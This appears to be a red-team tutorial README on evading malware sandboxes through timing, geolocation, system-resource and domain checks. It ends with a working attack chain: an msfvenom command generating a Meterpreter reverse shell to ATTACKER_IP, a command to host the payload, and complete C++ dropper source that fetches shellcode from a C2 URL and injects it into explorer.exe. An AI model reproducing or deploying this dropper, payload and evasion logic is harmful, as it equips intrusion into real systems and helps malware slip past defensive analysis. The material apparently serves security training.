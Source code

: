 # Common sandbox evasion techniques

Some practical knowledge to help out in Red Team operations (from basic techniques to the most advanced):

* Sleeping through sandboxes
* Geolocation and geoblocking
* Checking system information
* Querying network information

## Sleeping through sandboxes

Malware Sandboxes are often limited to a time constraint to prevent the overallocation of resources, which may 
increase the Sandboxes queue drastically. This is a crucial aspect that can be abused. For example, if we know that 
a Sandbox will only run for five minutes at any given time, we can implement a sleep timer that sleeps for five 
minutes before executing shellcode. 

This could be done in any number of ways: 

* One common way is to query the current system time and, in a parallel thread, check and see how much time has 
elapsed. After the five minutes have passed, the program can begin normal execution.
* Another popular method is to do complex, compute-heavy math, which may take a certain amount of time — for example, 
calculating the Fibonacci sequence up to a given number. It may take more or less time to do so based on the system's 
hardware. Masking the application is generally a good idea to avoid Anti-Virus detections in general.

Beware that some sandboxes may alter built-in sleep functions. Several Anti-Virus vendors have put out blog posts 
about bypassing built-in sleep functions. So it is highly recommended to develop our own sleep function.

## Geolocation and geoblocking

One defining factor of Sandboxes is that they are often located off-premise and are hosted by Anti-Virus providers. 
If you know you are attacking TryHackMe, a European company, and your binary is executed in California, you can make 
an educated guess that the binary has ended up in a Sandbox. You may choose to implement a geolocation filter on 
your program that checks if the IP Address block is owned by the company you are targeting or if it is from a 
residential address space. 

IfConfig.me can be used to retrieve your current IP Address, with additional information being optional. Combining 
this with ARIN's RDAP allows you to determine the ISP returned in an easy to parse format (JSON). That will, ofcourse, 
will only work if the host has internet access. Some organizations may build a block list of specific domains, so you 
should be 100% sure that this method will work for the organization you are attempting to leverage this against.

## Checking system information.

Another incredibly popular method is to observe system information. Most Sandboxes typically have reduced resources. 
A popular Malware Sandbox service, Any.Run, only allocates 1 CPU core and 4GB of RAM per virtual machine.

Most workstations in a network typically have 2-8 CPU cores, 8-32GB of RAM, and 256GB-1TB+ of drive space. This is 
incredibly dependent on the organisation that you are targeting, but generally, you can expect more than 2 CPU cores 
per system and more than 4GB of RAM. Knowing this, we can tailor our code to query for basic system info (CPU core 
count, RAM amount, Disk size, etc).

Some additional examples of things to filter on:

* Storage Medium Serial Number
* PC Hostname
* BIOS/UEFI Version/Serial Number
* Windows Product Key/OS Version
* Network Adapter Information
* Virtualization Checks
* Current Signed in User
* ...

## Querying network information

Almost no Malware Sandboxes are joined in a domain, so it's relatively safe to assume if the machine is not joined 
to a domain, it is not the right target. You cannot always be too sure, so collect some information about the domain 
to be safe, for example. check:

* Computers
* User accounts
* Last User Login(s)
* Groups
* Domain Admins
* Enterprise Admins
* Domain Controllers
* Service Accounts
* DNS Servers

These techniques can vary in difficulty. Consider how much time and effort to spend building out these evasion methods. 
A simple method, such as checking the systems environment variables (this can be done with `echo %VARIABLE%` or to 
display all variables, use the `set` command) for an item like the `LogonServer`, `LogonUserSid`, or `LogonDomain` 
may be much easier than implementing a Windows API.

## Setting the stage

1. Create a basic dropper that retrieves shellcode from a Web Server (specifically from `/index.raw`) and injects it 
into memory, and executes the shellcode. All shellcode must be generated with MSFVenom in a raw format, and must be 
64-bit, not 32-bit.

```text
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
```

2. Prepare for download on the target machine:

```text
$ python3 -m http.server 8080
```

3. Download the `dropper.cpp`, and open it. There are several placeholder values on lines 16, 22, 24, 27, and 33 that 
must be altered to make the code function properly. Once you have entered the values, compile the code for a 64-bit 
release.

```text
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")

using namespace std;

int downloadAndExecute()
{
    HANDLE hProcess;
//Update the dwSize variable with your shellcode size. This should be approximately 510 bytes
    SIZE_T dwSize = YOURSHELLCODESIZE;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
//Update the OpenProcess Windows API with your Explorer.exe Process ID. This can be found in Task Manager
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, explorer.exe-pid);
//Update the c2URL with your IP Address and the specific URI where your raw shellcode is stored.
    const char* c2URL = "http://yourip/index.raw";
    IStream* stream;
//Update the buff[] variable to include your shellcode size
    char buff[YOURSHELLCODESIZE];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
//Update the Read file descriptor to include your shellcode size
        stream->Read(buff, YOURSHELLCODESIZE, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);

    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
    return 0;
}

int main() {
    downloadAndExecute();
    return 0;
}
```

## Resources

* [Evasions: Timing](https://evasions.checkpoint.com/techniques/timing.html)
* [Threading based Sleep Evasion](https://www.joesecurity.org/blog/660946897093663167)
* [What Is My IP Address? - ifconfig.me](https://ifconfig.me/)
* [APNIC RDAP API](https://rdap.apnic.net/ip/1.1.1.1)